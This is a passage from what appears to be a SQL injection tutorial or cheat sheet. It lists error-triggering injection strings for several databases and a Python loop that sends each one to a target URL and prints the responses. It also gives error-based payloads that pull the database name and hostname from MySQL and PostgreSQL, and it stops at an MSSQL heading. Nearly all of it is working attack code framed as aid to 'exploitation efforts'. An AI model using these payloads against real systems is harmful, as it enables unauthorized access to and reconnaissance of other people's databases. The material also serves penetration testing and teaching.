 ```python
    "; RAISERROR('Error generated', 16, 1) -- ",
    # Oracle
    "' UNION SELECT UTL_INADDR.get_host_address('invalid_host') FROM dual -- ",
    "' UNION SELECT XMLType('<invalid><xml>') FROM dual -- ",
    "' UNION SELECT SYS.DBMS_ASSERT.noop('invalid_input') FROM dual -- ",
    # SQLite
    "' UNION SELECT SUBSTR('text', -1, 1) -- ",
    "' UNION SELECT POW('text', 2) -- ",
    "' UNION SELECT DATE('invalid_date') -- ",
]

for payload in payloads:
    response = requests.get(url, params={"id": payload})
    print(f"Payload: {payload}")
    print(f"Response: {response.text}\n")
```

## Extracting Database Name and Hostname Using Forced Errors

These advanced error-based SQL injection techniques can help extract crucial information such as the database name and hostname, which can further aid in your exploitation efforts.

### MySQL

**Extracting Database Name**
```sql
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) --
```

**Extracting Hostname**
```sql
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT @@hostname), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) --
```

### PostgreSQL

**Extracting Database Name**
```sql
' AND 1=CAST((SELECT current_database()) AS INT) --
```

**Extracting Hostname**

PostgreSQL does not directly provide a function for hostname, but you can use other metadata queries or built-in extensions like `inet_server_addr`.
```sql
' AND 1=CAST((SELECT inet_server_addr()) AS INT) --
```

### MSSQL
